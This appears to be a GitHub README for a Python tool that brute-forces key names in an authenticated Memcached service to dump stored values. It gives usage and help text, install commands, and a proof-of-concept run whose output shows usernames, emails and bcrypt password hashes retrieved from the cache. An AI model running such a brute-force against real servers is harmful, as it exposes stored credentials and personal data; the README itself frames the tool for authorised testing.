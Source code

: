 # Authenticated Memcached Keys Brute-force Script

Script is used to Bruteforce Keys Memcached service supporting Binary Protocol 

Expected outcome: Discover Keys and there Values inside Memcached service

Intended only for educational and testing in corporate environments.

This Script was tested on Python 3.8.6

### Usage

```shell
cfx:  ~/Memcached_bruteforce 
→ ./keys_brute.py -h
usage: keys_brute.py [-h] [-l HOST] [-u USERNAME] [-p PASSWORD] [-w WORDLIST]

Authenticated Memcached Key Bruteforce Script by ColdFusionX

optional arguments:
  -h, --help            show this help message and exit
  -l HOST, --host HOST  Connection to Host -> IP:PORT (Example: 127.0.0.1:11211)
  -u USERNAME, --username USERNAME
                        Username
  -p PASSWORD, --password PASSWORD
                        Password
  -w WORDLIST, --wordlist WORDLIST
                        Bruteforce Dictionary

Script Usage : 
./keys_brute.py -l 127.0.0.1:11211 -u username -p password -w wordlist.txt

```
- Make sure Python3 is installed with following additional modules:

### Additional required Python modules :
- bmemcached
- pwn

Installation:
```shell
pip3 install pwn
pip3 install python-binary-memcached
```
### Proof of Concept :

This exploit expects four user inputs :
- **Host** - Connection to Host -> IP:PORT (Example: 127.0.0.1:11211)
- **Username** - Memcached Username
- **Password** - Memcached Password
- **Wordlist** - Dictionary for Bruteforce

#### Expected Output :

```shell
cfx:  ~/Memcached_bruteforce
→ ./keys_brute.py -l 127.0.0.1:11211 -u cold -p password -w dictionary.txt

[*] Initiating Keys Bruteforce

[*] Key -> username
[+] Magnus
    Shockwave
    Optimus

[*] Key -> email
[+] Magnus@autobots.cy
    Shockwave@decepticons.cy
    Optimus@prime.cy

[*] Key -> password
[+] $2y$12$Vz8Z4adaLo3uKGaLpHa0IeuER15KtM0hAZuNy06OzCfThUD0gaFES
    $2y$12$2nmCPrn67.GdgjjBgE1q1.Y6B2sXICIHy3wTpib3O9OIQyfr/j/LO
    $2y$12$Gmiv7J69Xkh4ObQKhCbQ9uV6IWEvsAoMRp.kLzkrV8NO.WLT.ooUq 

```

### Reference

https://pypi.org/project/python-binary-memcached/

https://github.com/memcached/memcached/wiki/BinaryProtocolRevamped





